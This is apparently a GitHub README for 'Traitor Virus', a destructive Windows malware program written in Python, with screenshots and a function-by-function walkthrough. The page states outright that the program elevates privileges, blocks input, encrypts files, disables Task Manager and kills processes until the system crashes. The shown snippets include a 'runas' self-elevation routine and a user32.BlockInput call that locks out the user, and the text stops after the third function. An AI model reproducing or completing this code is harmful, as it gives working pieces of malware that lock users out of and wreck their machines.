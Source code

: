 # Traitor Virus | 东雪莲病毒

## Code effect display 
![image](https://github.com/user-attachments/assets/357f63d8-b2fd-4296-9068-c0ca36290f6c)
![image](https://github.com/user-attachments/assets/cd9439c1-79dc-46ab-b126-c2388b19d043)
![image](https://github.com/user-attachments/assets/ae1ceae3-dc59-4694-b3f2-859f6507deac)


## I. Code Overview 
This Python code is a malicious program. After obtaining administrator privileges, it performs a series of destructive operations on the computer system. These operations include but are not limited to blocking user input, modifying system settings, automatically downloading programs, encrypting files, disabling the task manager, changing system icons, playing audio and video files, and ultimately attempting to kill all processes, which may cause the system to crash with a blue screen.

## II. Detailed Function Analysis

### 1. Permission Check
```python
def is_admin():
    try:
        return ctypes.windll.shell32.IsUserAnAdmin()
    except:
        return False

if is_admin():
    # Malicious operation code
else:
    if sys.version_info[0] == 3:
        ctypes.windll.shell32.ShellExecuteW(None, "runas", sys.executable, __file__, None, 1)
```
The code first checks whether the program is running with administrator privileges. If not, it attempts to request administrator privileges to re - run the program.

### 2. Information Prompt and Keyboard/Mouse Blocking
```python
tkinter.messagebox.showinfo('骂谁罕见呢？', '现在退出还来得及')
user32 = windll.LoadLibrary("C:\\Windows\\System32\\user32.dll")
user32.BlockInput(True)
```
A prompt box pops up to alert the user, and then the mouse and keyboard input are blocked to restrict user operations.

### 3. Resource Path Handling
```python
def get_resource_path(relative_path):
    if hasattr(sys, '_MEIPASS'):
        return os.path.join(sys._MEIPASS, relative_path)
    return os.path.join(os.path.abspath("."), relative_path)
```
This function is used to obtain the paths of resources (such as audio and video files) required during the program's runtime.
